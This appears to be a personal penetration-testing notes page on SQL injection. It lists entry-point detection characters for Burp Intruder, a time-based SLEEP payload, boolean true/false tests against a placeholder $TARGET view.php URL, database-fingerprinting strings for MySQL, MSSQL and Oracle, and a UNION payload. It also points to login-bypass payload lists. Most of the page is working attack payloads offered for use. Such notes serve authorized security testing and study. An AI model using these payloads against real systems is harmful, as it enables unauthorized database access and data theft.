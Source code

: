 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Detection
```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#entry-point-detection
```

Try the following characters manually or in Burp Intruder where ever you see a parameter:
```
'
%27
"
%22
#
%23
,
%2C
;
%3B
)
' -- - 
%27 -- - 
" -- - 
%22 -- - 
# -- - 
%23 -- - 
; -- - 
%3B -- - 
) -- - 
```

![[Pasted image 20220712133826.png]]

![[Pasted image 20220712133729.png]]

Notice how only the 18th payload has the same length as the baseline.  Meaning we should be able to manually load that payload `) -- - ` and the page would load correctly.

Test further with sleep:
```sql
&job=1)(SELECT * FROM (SELECT(SLEEP(5)))OQkj)#&minTime=1466674406.084434 -- -
```

#### Boolean Based Detection
Original URL:
```
http://$TARGET/view.php?id=1141
```

Quick injection test:
```
http://$TARGET/view.php?id=1141'
```

Same results if we change the parameter to something non existent. 
```
http://$TARGET/view.php?id=9999
```


Testing for Boolean logic (True statement):
```
http://$TARGET/view.php?id=9999' or '1'='1
```
Page loads correctly!

Testing for Boolean logic (False statement):
```
http://$TARGET/view.php?id=9999' or '1'='2
```
Page does not load correctly!

#### Database Detection
MySQL MSSQL MariaDB testing:
```
'||(SELECT '')||'
```

Oracle testing:
```
'||(SELECT '' FROM dual)||'
```

If the page loads correctly, that should mean you found an injection point.

#### Union command injection
All we have to do here is utilize union for command injection:
```
) union select 'whoami' -- - 
```

![[Pasted image 20220712134347.png]]

#### SQL Login bypass

Use Intruder (Battering ram) + PayloadAllTheThings:

#### MySql
[[1.2_MySQL]]

#### MariaDB
[[1.3_MariaDB]]

#### OracleDB
[[1.4_OracleDB]]

#### MSSQL
[[1.5_MSSQLDB]]

#### MongoDB
[[Port 27017 - MongoDB ~]]


